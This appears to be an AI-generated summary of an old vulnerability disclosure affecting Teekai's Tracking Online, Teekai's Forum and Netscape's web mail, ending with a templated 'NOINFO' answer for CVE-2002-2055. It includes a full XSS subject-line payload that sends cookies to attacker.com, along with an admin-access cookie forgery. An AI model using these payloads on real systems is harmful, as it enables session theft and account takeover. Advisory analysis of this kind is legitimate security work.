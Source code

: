 Based on the provided content, here's a breakdown of the security vulnerabilities:

**Vulnerability Details:**

*   **Affected Products:**
    *   Tracking Online 1.0
    *   Teekai's Forum Full 1.2
    *   Netscape mail service (<http://ncmail.netscape.com>)

*   **Teekai's Products Vulnerabilities:**
    *   **Information Recovery and Decoding:** Both Tracking Online and Teekai's Forum store data that can be decoded using a provided PHP script.
        *   **Root Cause:** Weak encryption/encoding of information. The provided PHP script reveals the algorithm for decoding IP addresses.
        *   **Weakness:** Insecure storage of sensitive information (e.g., IP addresses).
        *   **Impact:** Attackers can recover and expose user information.
    *   **Teekai's Forum Specific Vulnerabilities:**
        *   **Admin Access:** Attackers can gain admin access by setting specific cookies (`valid_level=admin`, `valid_username_online=[VALUE]`).
        *   **Root Cause:** Insecure cookie handling and authentication mechanisms.
        *   **Weakness:** Lack of proper session management and access control.
        *   **Impact:** Attackers can gain full control of the forum.
        *   **Attack Vector:** Manipulating cookies.
        *   **Other small holes**
    *   **Tracking Online Specific Vulnerabilities:**
        *   **Cross-Site Scripting (XSS):**  Vulnerable to XSS attacks.
        *   **Root Cause:** Lack of input sanitization.
        *   **Weakness:** Improper handling of user-supplied data
        *   **Impact:** Attackers can inject malicious scripts to steal user data, redirect users, etc.
        *   **Attack Vector:** Injecting malicious JavaScript through the `/userlog.php` interface, or potentially via the log files.
        *   **Information Disclosure:** Sensitive log files like `/data/userlog/log.txt` and `/data/member_log.txt` are exposed, potentially revealing user information.
    *   **Netscape Mail Service Vulnerability:**
        *   **HTML Injection:**  It is possible to inject HTML into emails, including JavaScript.
        *   **Root Cause:**  Insufficient input validation/sanitization in email subject.
        *   **Weakness:**  Allows for the injection of malicious HTML/JavaScript code.
        *   **Impact:** Attackers can potentially execute malicious scripts in the recipient's browser by exploiting the injected HTML. The attacker could, for example, obtain the user's cookies to impersonate the user.
        *   **Attack Vector:** Sending a crafted email with a subject containing a malicious JavaScript payload.
    *   **Attack Vector Details for Netscape Mail:** The attacker can inject a script by crafting a subject line like `";</script*><form name=a*><input name=o value=<http://www.attacker.com/script?*>></form*>&lt;script*>window.open(document.a.o.value+document.cookie)</script*>` (without the `*`). The `form` tag bypasses the escaping of quotes.

*   **Required Attacker Capabilities:**
    *   **Teekai's Products:** Ability to send HTTP requests, manipulate cookies, and have knowledge of the file structure.
    *   **Netscape Mail:** Ability to send emails with a crafted subject line.

**Additional Notes:**

*   The author states that vendors were informed but did not patch the vulnerabilities.
*   The provided links to French details and its Google translation could provide more specific information.

**Relevance to CVE-2002-2055:**
The provided content offers information related to security vulnerabilities in multiple products. The information does not match the CVE description, which is a PLACEHOLDER. Therefore, I will respond with **NOINFO** because I do not have access to the CVE description.
